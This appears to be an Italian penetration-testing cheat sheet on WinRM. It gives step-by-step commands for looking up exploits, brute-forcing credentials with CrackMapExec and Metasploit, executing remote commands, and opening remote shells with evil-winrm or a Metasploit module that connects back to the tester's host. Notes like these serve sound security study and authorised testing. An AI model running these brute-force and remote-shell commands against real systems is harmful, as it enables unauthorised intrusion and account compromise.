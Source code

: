 <a href="https://github.com/Gigidotexe/Penetration_Test_notes/blob/main/README.md"> Back </a>
## Ricerca Exploit noti
Dopo aver effettuata la scansione del servizio e la sua versione nella fase di Scansione ed Enumerazione, possiamo procedere con la ricerca di exploit noti usando <a href="https://www.exploit-db.com/">Ecploit Database</a> oppure: 
```bash
searchsploit <winrm-versione> 
```
> Se restituise un exploit utilizzabile, copia il path e usa `searchsploit -m <path>`

---

## Bruteforce
Proviamo ora a cercare di ottenere le credenziali manualmente
### CrackMapExec
CrackMapExec è uno strumento multiuso per testare l’autenticazione nei servizi Windows. 
```bash
crackmapexec winrm <IP> -u <userList> -p <passwordList>
```
> la stessa sintassi vale per l'autenticazione a singolo utente

### Metasploit
```bash
use auxiliary/scanner/winrm/winrm_login
set RHOSTS <IP>
set USER_FILE <lista_utenti>
set PASS_FILE <lista_password>
set PASSWORD anything
run
```
> Il campo `PASSWORD` deve sempre essere valorizzato anche se stai usando un dizionario, altrimenti il modulo non eseguirà il test.

---

## Esecuzione Remota di Comandi
Dopo aver ottenuto delle credenziali per qualche account, possiamo accedere al servizio per eseguire dei comandi remoti.
### CrackMapExec
```bash
crackmapexec winrm <IP> -u <username> -p <password> -x "whoami"
```
Permette di eseguire comandi (`-x`) come `whoami`, `hostname`, `systeminfo`, ecc.

### Metasploit
```bash
use auxiliary/scanner/winrm/winrm_cmd
set RHOSTS <IP>
set USERNAME <utente>
set PASSWORD <password>
set CMD whoami
run
```
Questo modulo è utile per:
- Verificare se le credenziali funzionano
- Eseguire comandi diagnostici
- Operare in ambienti con logging avanzato
- Testare permessi utente

---

## Accesso
Dopo aver ottenuto delle credenziali e confermato che l'esecuzione dei comandi remoti funziona, possiamo accedere direttamente al servizio per averne il controllo. 
### Evil-WinRM
tool in Ruby pensato per fornire una shell interattiva remota su Windows sfruttando il servizio WinRM, autenticandosi con credenziali valide.
```bash
evil-winrm -u <username> -p '<password>' -i <IP>
```
> Per accedere con NTLM Hash cambiare `-p` con `-H`

Funzionalità disponibili:
- Shell PowerShell interattiva
- Upload e download file
- Esecuzione script PowerShell
- Post-exploitation tools

### Metasploit
```bash
use exploit/windows/winrm/winrm_script_exec
set RHOSTS <IP>
set LHOST <tuo_IP>
set LPORT <Port>
set USERNAME <utente>
set PASSWORD <password>
set FORCE_VBS true
run
```
> L’opzione `FORCE_VBS` forza l’esecuzione tramite VBScript e aumenta la compatibilità su sistemi con policy restrittive.

